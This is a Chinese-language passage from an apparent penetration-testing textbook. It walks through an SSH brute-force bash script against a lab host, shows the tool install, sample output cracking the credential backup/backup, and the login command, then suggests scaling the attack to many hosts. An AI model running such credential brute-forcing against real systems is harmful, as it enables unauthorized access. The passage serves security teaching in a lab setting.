 第 7-5 节：SSH 暴力破解

这个 SSH 暴力破解 bash 脚本的开始与我们的其他脚本非常相似：首先定义目标 IP 地址和端口。接下来，我们指定一组用户名 ❶ 和一个包含我们将使用的密码的文件 ❷。在 ❸ 处，我们迭代每个用户名，并使用 sshpass 注入密码 ❺，我们逐行读取 ❹。我们打印任何成功的输出 ❻。

> 注意

*为了让下面的脚本工作，我们需要安装 sshpass，这是一个特殊的实用工具，允许在脚本中管理 SSH 连接。请使用以下命令安装 sshpass：*

```
$ **sudo apt install sshpass -y**
```

下载并运行脚本以查看输出：

```
$ **./ssh-bruteforce.sh**
Starting SSH credential testing...
Testing credentials: root / 123456
Testing credentials: root / 123456789
Testing credentials: root / qwerty
Testing credentials: root / password
Testing credentials: root / backup
Testing credentials: root / pass123
Testing credentials: guest / 123456
Testing credentials: guest / 123456789
Testing credentials: guest / qwerty
Testing credentials: guest / password
Testing credentials: guest / backup
Testing credentials: guest / pass123
Testing credentials: backup / 123456
Testing credentials: backup / 123456789
Testing credentials: backup / qwerty
Testing credentials: backup / password
Testing credentials: backup / backup
Successful login with credentials:
Host: 172.16.10.13
Username: backup
Password: backup 
```

我们已经发现用户名*backup*在*p-jumpbox-01*服务器上使用了一个弱密码（同样是*backup*）。你可以通过以下命令验证这些凭据是否有效，并登录到*p-jumpbox-01*服务器：

```
$ **ssh backup@172.16.10.13**
```

当系统提示输入凭据时，使用密码*backup*，你应该能获得访问权限。

为了进一步扩展这个脚本，尝试以下修改：

+   通过使用字典来攻击多个主机并行处理，使暴力破解过程更加高效，这样你就不再局限于一次只针对一个 IP 地址。

+   向脚本中添加一个通知组件，这样一旦主机被攻陷，你就能通过你喜欢的消息媒体收到通知。

## 概要

在本章中，你学习了如何在目标机器上创建反向 shell，并探索了增强远程 shell 接口互动性和持久性的策略，为未来的攻击奠定基础。你还学习了如何在攻击机器和被攻陷的机器之间传输文件。接着，你使用 bash 执行了 SSH 暴力破解攻击。

既然你已经攻陷了三台机器，我们强烈建议你开始在被攻陷的主机上游走，为下一章的内容做准备。
